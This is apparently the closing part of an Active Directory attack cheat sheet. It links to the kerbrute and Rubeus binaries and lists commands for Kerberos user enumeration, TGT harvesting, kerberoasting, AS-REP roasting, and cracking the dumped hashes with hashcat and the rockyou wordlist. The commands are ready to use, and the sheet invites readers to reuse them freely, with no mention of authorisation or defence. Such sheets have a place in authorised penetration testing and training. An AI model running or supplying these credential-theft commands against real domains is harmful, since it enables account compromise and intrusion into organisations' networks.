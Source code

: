 **kerbrute binary:**
[https://github.com/ropnop/kerbrute/releases](https://github.com/ropnop/kerbrute/releases)
**Wordlist:**
[https://github.com/jeanphorn/wordlist/blob/master/usernames.txt](https://github.com/jeanphorn/wordlist/blob/master/usernames.txt)
-   Add DC (or hostname) DNS name and IP to / etc / hosts file (Medium doesn’t allow me to type the filename without the spaces)
```
./kerbrute userenum — dc <hostname.local> -d <domain name> <path to user-wordlist>
```
## Rubeus
Good tool for harvesting TGTs and conducting various attacks. Transfer it to the target to run it.
**rubeus binary:**
[https://github.com/r3motecontrol/Ghostpack-CompiledBinaries/blob/master/Rubeus.exe](https://github.com/r3motecontrol/Ghostpack-CompiledBinaries/blob/master/Rubeus.exe)
**Harvest TGTs every 30 seconds:**
```
rubeus.exe harvest /interval:30
```
**Kerberoasting:**
```
rubeus.exe kerberoast
```
-   [copy the hash to your attack box into a file — we’ll call it hash.txt]
```
hashcat -m 13100 -a 0 hash.txt /usr/share/wordlists/rockyou.txt
```
**AS-REP Roasting:**
Similar to kerberoasting, AS-REP roasting dumps the krbasrep5 hashes of user accounts that have Kerberos pre-authentication disabled. Unlike kerberoasting, these users do not have to be service accounts; the only requirement to be able to AS-REP roast a user is that the user must have pre-authentication disabled.
```
rubeus.exe asreproast /format:hashcat /outfile:<filename of choice>
```
-   [save hash to file on attack box — we’ll call it hash.txt]
```
hashcat -m 18200 hash.txt /usr/share/wordlists/rockyou.txt
```
## Conclusion
That’s it! AD exploitation is pretty simple once you get the hang of it. Having a cheat sheet makes life much easier. When you’re in a time crunch or are feeling brain dead this will make your life so much easier. Feel free to take this and do whatever you want. Add to it, take away from it, reformat it, I don’t care. Hope it helps!
